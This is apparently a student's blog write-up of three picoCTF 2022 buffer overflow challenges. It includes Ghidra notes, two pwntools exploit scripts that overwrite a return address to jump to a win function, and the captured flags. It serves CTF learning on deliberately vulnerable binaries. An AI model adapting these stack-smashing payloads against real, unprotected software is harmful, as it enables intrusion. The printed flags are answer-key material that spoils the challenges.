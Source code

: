 ```yaml
---
title: "Buffer Overflow - picoCTF 2022 Writeup"
date: "2022-04-12T11:59:59.999Z"
description: "picoCTF Writeup"
author: "ZyphenSVC"
slug: "posts/2022-04-12-picoctf-buffer-overflow"
---
```


> Forenote

```md
Google's “20% Time”, inspired by Sergey Brin's and Larry Page's Montessori School experience, is a philosophy and policy that every Google employee spends 20% of their time (the equivalent of a full work day each week) working on ideas and projects that interest that employee. Ideas like Gmail, Google News, and AdSense have been developed from this working model. 

This website is a project I am working on in my senior English literature and composition course. During this project I will be spending 20% of my class time working on developing my idea through a progressive process to its final product. This website will be a space where I update visitors on the progress of my idea for this project. Thank you for visiting and I hope you follow along on my journey.

D’Onfro, Jillian. “The Truth about Google’s Famous ‘20% Time’ Policy.” Business Insider, Business Insider, 17 Apr. 2015, http://www.businessinsider.com/google-20-percent-time-policy-2015-4  
```

# Buffer Overflow 0

Spam A's

> picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}

# Buffer Overflow 1

![Vuln](./vuln.png)

When opening up the file in ghidra we have three functions we need to keep track of, main, vuln, and win. 

We load into the vuln function from main, in which we see what is above.

We seem to have to overflow the buffer for `local_2c`, then set it to the win address to get the flag.

Luckily, ghidra variables are set in a way that the variable names are equivalent to the amount of space the variable takes. In this case, `2c` space in hex.

```python
from pwn import *

bin = context.binary = ELF("./vuln")

#p = process(bin.path)
p = remote("saturn.picoctf.net", 62247)

payload = b""
payload += 0x2c*b"A"
payload += p64(bin.symbols["win"]) + b"\n"
p.sendline(payload)
p.interactive()
```

Using the script above, we got the flag

> picoCTF{addr3ss3s_ar3_3asy_c76b273b}

# Buffer Overflow 2

This time it is the same idea as before, however we have a problem. 

![Win](./win.png)

We have to add arguments to the win function to able to "win".

We are able to do this by packing the negative hex variables after calling the win function.

This replaces param1 and param2.

```python
from pwn import *

bin = context.binary = ELF("./vuln2")

#p = process(bin.path)
p = remote("saturn.picoctf.net", 55779)

payload = b""
payload += 0x70*b"A"
payload += p32(bin.symbols["win"])
payload += asm("nop")*4
payload += pack(-0x35010ff3)
payload += pack(-0xff20ff3)
p.sendline(payload)
p.interactive()
```

This is the flag.

> picoCTF{argum3nt5_4_d4yZ_31432deb}
